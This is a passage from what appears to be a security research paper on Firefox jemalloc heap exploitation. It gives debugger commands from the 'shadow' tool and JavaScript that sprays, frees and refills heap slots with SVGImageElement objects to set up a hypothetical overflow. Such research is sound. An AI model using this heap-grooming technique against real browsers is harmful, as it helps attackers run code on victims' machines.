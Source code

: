 3) Reclaim the holes (since jemalloc is LIFO) and create useful heap
arrangements.

Assuming we have a heap overflow vulnerability in a specific-sized DOM
class, we can continue towards implementing our methodology. As an
example, I will use a typical Firefox DOM class that has a vtable and can
be allocated easily from JavaScript. Using shadow we can look for such a
DOM class whose objects have a size of 256 bytes:

    0:000> !py c:\\tmp\\pykd_driver symbol
    [shadow] usage: symbol [-vjdx] <size>
    [shadow] options:
    [shadow]    -v  only class symbols with vtable
    [shadow]    -j  only symbols from SpiderMonkey
    [shadow]    -d  only DOM symbols
    [shadow]    -x  only non-SpiderMonkey symbols

    0:000> !py c:\\tmp\\pykd_driver symbol -dv 256
    [shadow] searching for DOM class symbols of size 256 with vtable
    ...
    [shadow] 0x100 (256) class mozilla::dom::SVGImageElement (vtable: yes)

Continuing from where we left off in section 5.1, after spraying the
jemalloc heap with ArrayObjects, we free every second allocation to create
holes. We also trigger a garbage collection to make these holes
reclaimable.

    for(var i = 0; i < spray_size; i += 2)
    {
        delete(container[i]);
        container[i] = null;
        container[i] = undefined;
    }

    var gc_ret = trigger_gc();

We fill these holes with the example vulnerable object we have identified
above, i.e. mozilla::dom::SVGImageElement. Our assumption is that we have
a controlled (or semi-controlled) heap overflow in some method of this
class. We can trigger it either after the instantiation of each object, or
after the allocation of all objects on a specific one.

    for(var i = 0; i < spray_size; i += 2)
    {
        // SVGImageElement is a 0x100-sized object
        container[i] = \
        document.createElementNS("http://www.w3.org/2000/svg", "image");

        // trigger the overflow bug here in all allocations, e.g.:
        // container[i].some_vulnerable_method();
    }

    // or, trigger the overflow bug here in a specific one, e.g.:
    // container[1666].some_vulnerable_method();

Using shadow as before we can search for the controlled sprayed content of
the ArrayObjects and make sure that our heap arrangement has succeeded;
that is we have ArrayObjects and SVGImageElement objects one after the
other contiguously on the jemalloc heap. The jerun command outputs a
textual visualization of the regions of the requested run; their index,
whether allocated (used) or not, address, and a 4-byte preview of the
content. 
